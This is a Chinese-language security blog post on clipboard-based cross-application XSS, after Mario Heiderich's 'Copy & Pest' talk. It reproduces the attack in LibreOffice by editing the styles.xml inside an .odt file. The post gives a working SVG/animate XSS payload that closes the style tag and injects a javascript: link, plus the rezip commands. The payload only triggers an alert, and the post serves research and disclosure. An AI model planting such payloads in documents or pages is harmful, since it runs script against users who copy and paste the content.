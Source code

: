 ```yaml
---
layout: post
title: 跨站世界中有趣的复制与粘贴
---
```


Mario Heiderich 在 2015-03-30 发表了名为《Copy & Pest - A case-study on the clipboard, blind trust and invisible cross-application XSS》的 PPT ，地址：[http://www.slideshare.net/x00mario/copypest](http://www.slideshare.net/x00mario/copypest)

PPT 讲述了几个部分：
 
 - 为什么会出现这种问题？
 - 为什么问题会出现在这里？
 - 我们能够做些什么？
 - 谁需要修复这些问题？
 - ...
 
我在10年使用阿里旺旺时发现从 Office 中复制过来的内容巧妙的在输入框内保持了原有样式，虽知可能会存在一些问题，但简单的折腾了下并未能真正做出复制与粘贴风险的DEMO，马里奥这个比较有意思，另外这里的复制粘贴与富文本有那么点儿相似，但却大不同。

 - [http://server.n0tr00t.com/tools/copypaste.html](http://server.n0tr00t.com/tools/copypaste.html) @html5sec
 
上面小脚本能将剪切板中的内容解析出来，例如我们使用 Word 编辑文字后并粘贴到 [3rd: and paste is here] 区域：

![http://ww2.sinaimg.cn/large/c334041bgw1eqy8r2xhttj213h0f7acd.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqy8r2xhttj213h0f7acd.jpg)    <!--[if gte mso 10]>
    <style>
     /* Style Definitions */
    table.MsoNormalTable
        {mso-style-name:"Table Normal";
        mso-tstyle-rowband-size:0;
        mso-tstyle-colband-size:0;
        mso-style-noshow:yes;
        mso-style-priority:99;
        mso-style-parent:"";
        mso-padding-alt:0cm 5.4pt 0cm 5.4pt;
        mso-para-margin:0cm;
        mso-para-margin-bottom:.0001pt;
        mso-pagination:widow-orphan;
        font-size:12.0pt;
        font-family:Cambria;
        mso-ascii-font-family:Cambria;
        mso-ascii-theme-font:minor-latin;
        mso-hansi-font-family:Cambria;
        mso-hansi-theme-font:minor-latin;
        mso-fareast-language:ZH-CN;}
    </style>
    <![endif]-->

    <!--StartFragment-->
    <p class="MsoNormal"><b><span style="font-size:28.0pt;font-family:&quot;Apple Chancery&quot;;color:red">Linux.im<o:p></o:p></span></b></p>
    <!--EndFragment-->
    
眼见并不为真，来对已经公开的案例进行重现（LibreOffice Writer for Ubuntu）：

 1. 新建 OpenOffice odt 文档
 2. 修改为压缩包格式
 3. 篡改 odt 目录结构中的 XML
 4. 无损恢复成原始文档
 
##### 创建文档

![http://ww4.sinaimg.cn/large/c334041bgw1eqy966a4btj21fc0d542b.jpg](http://ww4.sinaimg.cn/large/c334041bgw1eqy966a4btj21fc0d542b.jpg)

此时复制解析后的 text/html 代码为：

    <style type="text/css">H1 { margin-bottom: 0.08in; }H1.western { font-family: "Liberation Sans",sans-serif; font-size: 16pt; }H1.cjk { font-family: "WenQuanYi Micro Hei"; font-size: 16pt; }H1.ctl { font-family: "Lohit Hindi"; font-size: 16pt; }P { margin-bottom: 0.08in; }</style>

    <h1 class="western"><font color="#800000"><font style="font-size: 28pt" size="6"><span style="background: #ffff00">Linux.im: Please copy me =)</span></font></font></h1>

##### 修改格式

![http://ww3.sinaimg.cn/large/c334041bgw1eqy9a2zgzjj20ka0hyae6.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqy9a2zgzjj20ka0hyae6.jpg)

##### 篡改 styles.xml

    <style type="text/css">H1 { margin-bottom: 0.08in; }H1.western { font-family: "Liberation Sans",sans-serif; font-size: 16pt; }H1.cjk { font-family: "WenQuanYi Micro Hei"; font-size: 16pt; }H1.ctl { font-family: "Lohit Hindi"; font-size: 16pt; }P { margin-bottom: 0.08in; }</style>
    
寻找可控点为 font-family ，篡改对应的 styles 样式文件，闭合标签并植入恶意 Payload：

    &lt;/style&gt;&lt;div contenteditable=false&gt;&lt;svg&gt;&lt;style&gt;svg {position:fixed}&lt;/style&gt;&lt;style&gt;svg {top:0}&lt;/style&gt;&lt;style&gt;svg {left:0}&lt;/style&gt; &lt;style&gt;svg {height:10000px}&lt;/style&gt; &lt;style&gt;svg {width:10000px}&lt;/style&gt; &lt;style&gt;svg {opacity:0}&lt;/style&gt; &lt;a xmlns:xlink=&quot;http://www.w3.org/1999/xlink&quot; xlink:href=&quot;?&quot;&gt; &lt;circle r=&quot;4000&quot;&gt;&lt;/circle&gt; &lt;animate attributeName=&quot;xlink:href&quot; begin=&quot;0&quot; from=&quot;javascript:alert(document.domain)&quot; to=&quot;&amp;&quot; /&gt; &lt;/a&gt;1
    
##### 恢复原始文档

    _> zip -u x1.zip
    _> mv x1.zip x1.odt

![http://ww1.sinaimg.cn/large/c334041bgw1eqy9o9bhjbj21eq0jpjyw.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqy9o9bhjbj21eq0jpjyw.jpg)

##### 其它

- Adobe Reader
- Microsoft Office
- XPS Viewer
- ...

Mario PPT 中讲谈到了几个典型应用存在的类似问题，随后我又对 MS Office For MAC 等软件进行了挖掘，比较有趣的是 MS Office For MAC 版本中的 XSS Filter 耗费了我大量时间来 Bypass 过滤器，感兴趣的可以试一下。

这种交互式跨站攻击虽稍有鸡肋，但在现实世界中可能仍会发生，期待未来的真实案例。
